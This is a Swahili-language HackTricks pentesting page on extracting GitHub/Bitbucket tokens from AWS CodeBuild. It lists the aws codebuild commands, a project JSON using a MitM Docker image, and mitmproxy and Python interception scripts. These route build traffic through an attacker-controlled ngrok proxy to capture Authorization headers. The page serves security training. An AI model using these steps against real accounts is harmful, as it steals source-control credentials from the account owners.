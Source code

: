 # AWS Codebuild - Kuvuja kwa Kitufe

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Rudisha Vitufe vilivyowekwa kwa Github/Bitbucket

Kwanza, angalia ikiwa kuna vitufe vya chanzo vilivyowekwa ambavyo unaweza kuvuja:
```bash
aws codebuild list-source-credentials
```
### Kupitia Picha ya Docker

Ikiwa utagundua kuwa uthibitisho kwa mfano Github umewekwa kwenye akaunti, unaweza **kuchota** hicho **upatikanaji** (**GH token au OAuth token**) kwa kufanya Codebuild kutumie **picha maalum ya docker** kutekeleza ujenzi wa mradi.

Kwa madhumuni haya unaweza **kuunda mradi mpya wa Codebuild** au kubadilisha **mazingira** ya moja iliyopo ili kuweka **picha ya Docker**.

Picha ya Docker unayoweza kutumia ni [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Hii ni picha ya Docker ya msingi sana ambayo itaweka **mazingira ya env `https_proxy`**, **`http_proxy`** na **`SSL_CERT_FILE`**. Hii itakuruhusu kuingilia sehemu kubwa ya trafiki ya mwenyeji inayotajwa katika **`https_proxy`** na **`http_proxy`** na kuamini SSL CERT iliyotajwa katika **`SSL_CERT_FILE`**.

1. **Unda & Pakia picha yako ya Docker MitM mwenyewe**
* Fuata maagizo ya repo kuweka anwani yako ya IP ya proksi na kuweka cheti chako cha SSL na **ujenge picha ya docker**.
* **USIWEKE `http_proxy`** ili usiingilie maombi kwa kiishio cha metadata.
* Unaweza kutumia **`ngrok`** kama `ngrok tcp 4444` kuweka proksi kwa mwenyeji wako
* Mara baada ya kuwa na picha ya Docker iliyoundwa, **ipakie kwenye repo ya umma** (Dockerhub, ECR...)
2. **Wekeza mazingira**
* Unda **mradi mpya wa Codebuild** au **badilisha** mazingira ya moja iliyopo.
* Weka mradi kutumia **picha ya Docker iliyoundwa hapo awali**

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Wekeza proksi ya MitM kwenye mwenyeji wako**

* Kama ilivyoelezwa kwenye **repo ya Github** unaweza kutumia kitu kama:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
**Toleo la mitmproxy lililotumika lilikuwa 9.0.1**, iliripotiwa kwamba na toleo la 10 hili huenda lisifanye kazi.
{% endhint %}

4. **Endesha ujenzi na ukamatishe siri**

*   Unaweza kuona token katika kichwa cha **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Hii pia inaweza kufanywa kutoka kwa aws cli na kitu kama hiki

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Kupitia itifaki ya HTTP~~

{% hint style="success" %}
**Udhaifu huu ulisahihishwa na AWS wakati fulani katika wiki ya tarehe 20 ya Feb ya 2023 (Nadhani Ijumaa). Kwa hivyo, muhusika hawezi tena kutumia udhaifu huo :)**
{% endhint %}

Mtu mhalifu mwenye **idhini iliyoinuliwa katika CodeBuild** angeweza kufichua **tokeni ya Github/Bitbucket** iliyowekwa au ikiwa idhini ilikuwa imewekwa kupitia OAuth, **tokeni ya OAuth ya muda iliyotumiwa kufikia nambari**.

* Mtu mhalifu angeweza kuongeza mazingira ya pembejeo **http\_proxy** na **https\_proxy** kwa mradi wa CodeBuild ukionyesha kwenye kompyuta yake (kwa mfano `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Kisha, badilisha URL ya repo ya github kutumia HTTP badala ya HTTPS, kwa mfano: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Kisha, endesha mfano wa msingi kutoka [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) kwenye bandari iliyoelekezwa na mazingira ya proksi (http\_proxy na https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Hatimaye, bofya **Jenga mradi**, **vyeti** vitatumwa kwa **maandishi wazi** (base64) kwa mlango wa mitm:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Sasa mshambuliaji ataweza kutumia token kutoka kwa kompyuta yake, kuorodhesha madaraka yote inayo na kuitumia kwa urahisi zaidi kuliko kutumia huduma ya CodeBuild moja kwa moja.
{% endhint %}

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
